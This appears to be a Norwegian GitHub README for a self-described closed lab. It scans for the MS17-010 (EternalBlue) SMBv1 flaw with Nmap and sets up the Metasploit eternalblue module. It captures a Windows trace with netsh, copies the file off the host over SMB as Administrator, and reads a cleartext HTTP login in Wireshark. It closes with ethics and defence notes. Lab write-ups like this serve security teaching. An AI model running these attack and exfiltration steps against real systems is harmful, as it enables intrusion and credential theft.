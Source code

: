# MS17-010 (EternalBlue) + nettverksspor — lab

Fiktiv, lukket lab der jeg:
1) påviser **MS17-010** (EternalBlue) mot en Windows-vert,
2) demonstrerer exploit-flyten i Metasploit,
3) samler **Windows nettverksspor** med `netsh trace`,
4) eksporterer/konverterer sporet og verifiserer i **Wireshark** at en HTTP-innlogging er synlig i klartekst.

> **Etikk:** Kun lab/demo i eget miljø. Ikke test mot systemer du ikke eier eller har eksplisitt tillatelse til. Sladd brukernavn/passord, tokens og interne IP-er før publisering.

---

## Mål
- Verifisere sårbar **SMBv1 / MS17-010** på målmaskin.
- Vise exploit-arbeidsflyt (funn → modulvalg → kjøring) i Metasploit.
- Samle og hente ut **nettverksspor** fra Windows (`.etl`) og konvertere til **pcap/pcapng**.
- Dokumentere i **Wireshark** at HTTP-innlogging fanges når TLS ikke brukes.

## Laboppsett (eksempel)
- **Angriper:** Kali Linux  
- **Mål:** Windows-vert med SMBv1 (sårbar for MS17-010)  
- **Bruker-VM:** Windows-VM som besøker intern webapp  
- **Verktøy:** Nmap, Metasploit, `netsh trace`, etl2pcapng, editcap, Wireshark

---

## Kontekst
**Angriper-IP**
![attacker ip](images/attacker-ip.png)

**Webapp – landingsside**
![web home](images/webapp-home.png)

**Webapp – innlogget oversikt**
![web messages](images/webapp-messages.png)

**Windows (mål/klient) – oversikt**
![windows admin](images/windows-admin.png)

---

## A) Sårbarhet og utnyttelse

**Nmap MS17-010 (NSE) – VULNERABLE**
```bash
nmap --script smb-vuln* -p 445 192.168.x.x
```
![nmap ms17-010](images/nmap-ms17-010.png)

**Metasploit i gang + modulvalg**
```bash
msfconsole
search eternalblue
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.x.x
```
![msf banner](images/msfconsole-banner.png)  
![msf search](images/msf-search-eternalblue.png)


---

## B) Nettverksspor på Windows (innebygd)

**Start sporing**
```cmd
netsh trace start capture=yes tracefile=C:\50309\net_trc.etl level=verbose
```
![trace start](images/netsh-trace-start.png)

**Stopp sporing**
```cmd
netsh trace stop
```
![trace stop](images/netsh-trace-stop.png)

---

## C) Eksfil og konvertering

**Hent ut `.etl` fra Windows**
- Eksempel via SMB fra Kali:
```bash
smbclient //192.168.x.x/50309 -U Administrator
get net_trc.etl
```
![trace exfil](images/trace-exfil.png)

**Konverter `.etl` → `.pcapng` (Windows etl2pcapng)**
```powershell
.\etl2pcapng.exe C:\...\net_trc.etl C:\...\net_trc.pcapng
```
![etl2pcapng](images/etl2pcapng-convert.png)

**(Valgfritt) Konverter `.pcapng` → `.pcap` for kompatibilitet**
```bash
editcap -F pcap ~/Desktop/net_trc.pcapng ~/Desktop/net_trc.pcap
```
![editcap](images/editcap-convert.png)

---

## D) Analyse i Wireshark

Filtrer på HTTP og finn POST-forespørsel som inneholder innloggingsdata (demo uten TLS):
![wireshark creds](images/wireshark-credentials.png)

---

## Hvorfor dette fungerer (kort)
- **MS17-010 / EternalBlue** misbruker en sårbarhet i SMBv1 for fjernkodekjøring.  
- `netsh trace` samler rå nettverkshendelser på Windows i `.etl`. Med **etl2pcapng** og **editcap** kan vi åpne sporet i **Wireshark** og observere **HTTP POST**-innhold når trafikken ikke er kryptert.

## Forsvar (kort)
- Deaktiver **SMBv1** og patch **MS17-010**.  
- Segmenter nettverk og begrens SMB til nødvendige soner.  
- Tving **HTTPS**; benytt **EDR/IDS** og overvåk mistenkelig SMB-trafikk.  
- Regelmessig sårbarhetsskanning og patchhygiene.

## Lisens
MIT
